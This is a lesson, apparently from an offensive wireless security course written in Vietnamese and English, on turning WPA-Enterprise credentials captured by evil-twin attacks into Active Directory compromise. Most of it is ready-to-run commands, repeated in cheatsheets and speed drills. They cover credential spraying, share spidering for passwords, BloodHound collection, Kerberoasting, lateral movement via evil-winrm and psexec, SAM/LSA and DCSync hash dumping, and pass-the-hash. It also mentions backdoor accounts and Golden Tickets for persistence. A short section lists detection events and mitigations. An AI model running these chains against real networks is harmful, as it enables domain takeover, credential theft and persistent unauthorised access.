

> **Prerequisites**: [[04-evil-twin-rogue-radius-peap|04. Evil Twin: PEAP Hash Capture]] · [[05-eap-downgrade-gtc-cleartext|05. EAP Downgrade]] · [[06-eap-ttls-pap-attack|06. TTLS/PAP]]
> **Objectives**:
> - Hiểu tại sao WPA-Enterprise credentials thường là domain credentials
> - Validate captured credentials và xác định level of access
> - Thực hiện network enumeration từ wireless access point vào internal network
> - Enumerate Active Directory với captured credentials
> - Identify path to high-value targets (Domain Admin, sensitive data)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Đã capture và crack (hoặc cleartext) credentials từ Lessons 04–09
> - Network access đến internal domain (thường có sau khi associate với corporate AP)
> - Domain Controller IP hoặc subnet reachable từ wireless segment

> [!info] Tại sao wireless credentials = domain credentials?
> Trong WPA2-Enterprise, mỗi user authenticate bằng **domain credentials** của họ (username/password của Windows domain account). RADIUS server validate credentials qua LDAP/AD backend. Captured wireless password **chính là domain password** — cho phép access vào email, file shares, VPN, và toàn bộ corporate infrastructure.

---

## Cơ chế tấn công

### Wireless-to-Domain Attack Chain

```
[Phase 1 — Wireless]           [Phase 2 — Internal]
  ↓                                ↓
Capture EAP creds         →   Validate domain creds
(Lessons 04–09)               (nxc, impacket)
                          →   Network enumeration
                               (nmap, nxc --shares)
                          →   AD enumeration
                               (BloodHound, ldapsearch)
                          →   Identify attack paths
                               (Kerberoasting, ACL abuse...)
                          →   Lateral movement
                               (psexec, WinRM, evil-winrm)
                          →   Privilege escalation
                               (→ Domain Admin)
```

### Understanding Access Level

Captured credentials thường là một trong 3 levels:

| User Type | Typical Permissions | Next Steps |
|----------|-------------------|-----------|
| **Domain User** | Network access, read most shares, enumerate AD | BloodHound, Kerberoasting |
| **Local Admin trên 1 máy** | Full local access, dump hashes từ máy đó | Pass-the-Hash lateral movement |
| **Domain Admin** | Full domain control | DCSync, dump NTDS.dit, Golden Ticket |

---

## Quy trình tấn công

**Môi trường giả định**: Đã có credential `jdoe:Password123!` từ PEAP capture. DC tại `10.10.0.1`, subnet `10.10.0.0/24`.

### Phase 1 — Credential Validation

**Bước 1 — Xác nhận credentials valid và xác định domain**

```bash
# netexec (nxc) — successor của crackmapexec:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!'
```

> **Expected output**:
> ```
> SMB   10.10.0.1  445  DC01  [*] Windows Server 2019 (name:DC01) (domain:CORP.LOCAL)
> SMB   10.10.0.1  445  DC01  [+] CORP.LOCAL\jdoe:Password123!
> ```
> Dấu `[+]` = valid credentials. `(Pwn3d!)` = local admin.

**Bước 2 — Spray credentials qua toàn subnet**

```bash
nxc smb 10.10.0.0/24 -u jdoe -p 'Password123!' --continue-on-success
# Tìm máy nào user này có local admin → (Pwn3d!)
```

> **Expected output**: List tất cả machines trong subnet với authentication status.

### Phase 2 — Network & Share Enumeration

**Bước 3 — Enumerate SMB shares**

```bash
# Xem shares trên DC:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --shares

# Spider shares cho sensitive files:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --spider C$
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --spider SYSVOL

# Tìm passwords trong shares:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' \
    --spider-folder / --pattern "password|passwd|creds"
```

**Bước 4 — Enumerate domain users và groups**

```bash
# Domain users:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --users

# Domain groups:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --groups

# Password policy:
nxc smb 10.10.0.1 -u jdoe -p 'Password123!' --pass-pol
```

### Phase 3 — Active Directory Enumeration

**Bước 5 — BloodHound collection**

```bash
# BloodHound Python ingestor (từ Kali):
pip3 install bloodhound
bloodhound-python -u jdoe -p 'Password123!' \
    -d CORP.LOCAL -ns 10.10.0.1 \
    -c All --zip

# Upload zip vào BloodHound GUI → tìm attack paths
```

> **Expected output**: JSON files với users, computers, groups, GPOs, ACLs. Import vào BloodHound → visualize path to Domain Admin.

**Bước 6 — BloodHound key queries**

```
# Trong BloodHound GUI:
"Find Shortest Paths to Domain Admins"
"Find Principals with DCSync Rights"
"Find Kerberoastable Users with High Value Targets"
"Find ASREPRoastable Users"
"Computers where Domain Users are Local Admin"
```

**Bước 7 — Kerberoasting từ captured credentials**

```bash
# Nếu jdoe là domain user, thử Kerberoasting:
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
    CORP.LOCAL/jdoe:'Password123!' \
    -dc-ip 10.10.0.1 \
    -request \
    -outputfile kerberoast_hashes.txt

hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Bước 8 — LDAP enumeration**

```bash
# Xem domain info qua LDAP:
python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py \
    -all CORP.LOCAL/jdoe:'Password123!' -dc-ip 10.10.0.1

# ldapsearch (nếu cần raw LDAP):
ldapsearch -x -H ldap://10.10.0.1 \
    -D "jdoe@CORP.LOCAL" -w 'Password123!' \
    -b "DC=CORP,DC=LOCAL" \
    "(objectClass=user)" sAMAccountName memberOf
```

### Phase 4 — Lateral Movement

**Bước 9 — Nếu user là local admin trên một máy**

```bash
# WinRM access (port 5985):
evil-winrm -i 10.10.0.50 -u jdoe -p 'Password123!'

# PSExec (admin$ share required):
python3 /usr/share/doc/python3-impacket/examples/psexec.py \
    CORP.LOCAL/jdoe:'Password123!'@10.10.0.50

# SMBExec (stealthier):
python3 /usr/share/doc/python3-impacket/examples/smbexec.py \
    CORP.LOCAL/jdoe:'Password123!'@10.10.0.50
```

**Bước 10 — Dump local hashes (nếu local admin)**

```bash
# SAM dump:
nxc smb 10.10.0.50 -u jdoe -p 'Password123!' --sam

# LSA secrets:
nxc smb 10.10.0.50 -u jdoe -p 'Password123!' --lsa

# Từ evil-winrm session — secretsdump:
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py \
    CORP.LOCAL/jdoe:'Password123!'@10.10.0.50
```

**Bước 11 — DCSync (nếu có DCSync rights)**

```bash
# Kiểm tra qua BloodHound: "Find Principals with DCSync Rights"
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py \
    CORP.LOCAL/jdoe:'Password123!'@10.10.0.1 \
    -just-dc-ntlm
# Dump tất cả domain hashes → crack hoặc Pass-the-Hash
```

---

## Biến thể & Bypass

### Pass-the-Hash với Captured NetNTLMv1

Nếu crack NetNTLMv1 → có plaintext password → dùng bình thường. Nếu có **NTLM hash** (từ SAM dump sau lateral movement):

```bash
nxc smb 10.10.0.1 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4'
evil-winrm -i 10.10.0.50 -u Administrator -H '32ed87bdb5fdc5e9cba88547376818d4'
```

### WPA Credentials → VPN Access

WPA-Enterprise credentials thường dùng cho VPN cũng (RADIUS authentication). Thử:

```bash
# OpenVPN với radius auth:
# Test nếu same credentials work trên VPN endpoint
# Thường dùng nxc để verify trước: nxc smb/winrm/ldap với creds
```

### Persistence via Wireless Credentials

Sau khi gain internal access, note rằng wireless credentials có thể dùng để maintain access:

```bash
# Nếu password của jdoe không đổi → legitimate wireless connect trong tương lai
# Add AD user (nếu có DA) → persistent backdoor account
# Tạo Golden Ticket (nếu có krbtgt hash) → unlimited access
```

---

## Cây quyết định



---

## Command Cheatsheet

**Credential Validation**

```bash
# Single target
nxc smb <DC_IP> -u <user> -p '<pass>'

# Subnet sweep
nxc smb <SUBNET>/24 -u <user> -p '<pass>' --continue-on-success

# Multiple protocols
nxc winrm <IP> -u <user> -p '<pass>'
nxc ldap <IP> -u <user> -p '<pass>'
nxc rdp <IP> -u <user> -p '<pass>'
```

**Enumeration**

```bash
# Shares
nxc smb <IP> -u <user> -p '<pass>' --shares

# Users & Groups
nxc smb <IP> -u <user> -p '<pass>' --users --groups

# BloodHound
bloodhound-python -u <user> -p '<pass>' -d <DOMAIN> -ns <DC_IP> -c All --zip
```

**Lateral Movement**

```bash
# WinRM
evil-winrm -i <IP> -u <user> -p '<pass>'
evil-winrm -i <IP> -u <user> -H '<NTLM_hash>'

# PSExec
python3 psexec.py DOMAIN/user:'pass'@<IP>

# SMBExec
python3 smbexec.py DOMAIN/user:'pass'@<IP>
```

**Hash Dumping**

```bash
# SAM + LSA
nxc smb <IP> -u <user> -p '<pass>' --sam --lsa

# secretsdump (remote)
python3 secretsdump.py DOMAIN/user:'pass'@<IP>

# DCSync (cần DCSync rights)
python3 secretsdump.py DOMAIN/user:'pass'@<DC_IP> -just-dc-ntlm
```

**Kerberoasting từ wireless creds**

```bash
python3 GetUserSPNs.py DOMAIN/user:'pass' -dc-ip <DC_IP> \
    -request -outputfile kerberoast.txt
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 14 ngày đầu.

**Drill 1 — Credential validation workflow**
Mục tiêu: từ captured creds → valid/invalid decision → subnet sweep trong 2 phút.

```bash
nxc smb <DC_IP> -u <user> -p '<pass>'
nxc smb <SUBNET>/24 -u <user> -p '<pass>' --continue-on-success
```

Luyện cho đến khi: 2 commands gõ tự nhiên, biết đọc output ngay.

**Drill 2 — BloodHound collection**
Mục tiêu: launch bloodhound-python ingestor và hiểu output files.

```bash
bloodhound-python -u <user> -p '<pass>' -d DOMAIN -ns <DC_IP> -c All --zip
ls *.zip  # Verify output
# Import vào BloodHound GUI: drag & drop zip
```

Luyện cho đến khi: collection → import → "Find Shortest Paths to Domain Admins" trong dưới 5 phút.

**Drill 3 — Full post-exploitation chain**
Mục tiêu: simulate từ "đã có creds" đến "identify next attack path".

```bash
# 1. Validate
nxc smb <DC_IP> -u jdoe -p 'Password123!'
# 2. Sweep
nxc smb 10.10.0.0/24 -u jdoe -p 'Password123!' --continue-on-success
# 3. Shares
nxc smb <DC_IP> -u jdoe -p 'Password123!' --shares
# 4. BloodHound
bloodhound-python -u jdoe -p 'Password123!' -d CORP.LOCAL -ns <DC_IP> -c All --zip
# 5. Kerberoast
python3 GetUserSPNs.py CORP.LOCAL/jdoe:'Password123!' -dc-ip <DC_IP> -request -outputfile k.txt
```

Luyện cho đến khi: 5-step chain hoàn tất trong dưới 10 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Unusual authentication from wireless segment**: Domain user authenticating từ IP trong wireless VLAN → alert nếu wireless VLAN không có AD access thông thường.
> **BloodHound collection**: LDAP queries patterns đặc trưng của BloodHound — nhiều LDAP requests về ACLs, trusts, group memberships.
> **Kerberoasting**: Event ID 4769 nhiều requests trong thời gian ngắn.
> **Lateral movement**: Event ID 4624 logon type 3 từ unexpected source IPs.
> **secretsdump**: Event ID 4662 (object access) với NTDS.dit hoặc SAM access.

> [!note] Mitigation
> - **Network segmentation**: Wireless clients nên ở separate VLAN, không direct access đến domain resources — buộc qua firewall/NAC
> - **Tiered admin model**: Wireless user accounts không có local admin rights trên servers
> - **Privileged Access Workstations (PAW)**: Admin tasks chỉ từ PAW, không từ regular workstations
> - **Least privilege**: Wireless user credentials không nên có DCSync rights hay AD admin rights
> - **MFA trên VPN và domain resources**: Ngay cả khi credential bị capture, MFA block access

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB | **Resolute** (Retired) | Domain user → DA path; BloodHound practice |
| HTB | **Forest** (Retired) | AS-REP Roasting + Kerberoasting; post-exploitation chain |
| HTB | **Active** (Retired) | GPP password + Kerberoasting; classic AD machine |
| HTB Academy | **Active Directory Enumeration & Attacks** | Full AD post-exploitation coverage |

---

## Field Manual Entry

> [!abstract] Post-Exploitation (Wireless Creds) — Quick Reference
> **Điều kiện**: Valid domain credentials từ wireless capture
> **Validate**: `nxc smb <DC_IP> -u <user> -p '<pass>'`
> **Sweep**: `nxc smb <SUBNET>/24 -u <user> -p '<pass>' --continue-on-success`
> **BloodHound**: `bloodhound-python -u <user> -p '<pass>' -d DOMAIN -ns <DC_IP> -c All --zip`
> **Kerberoast**: `GetUserSPNs.py DOMAIN/user:'pass' -dc-ip <DC_IP> -request -outputfile k.txt`
> **Lateral move**: `evil-winrm -i <IP> -u <user> -p '<pass>'` | `psexec.py DOMAIN/user:'pass'@<IP>`
> **Ref**: [[10-post-exploitation-credential-reuse|10. Post-Exploitation: Credential Reuse & Lateral Movement]]
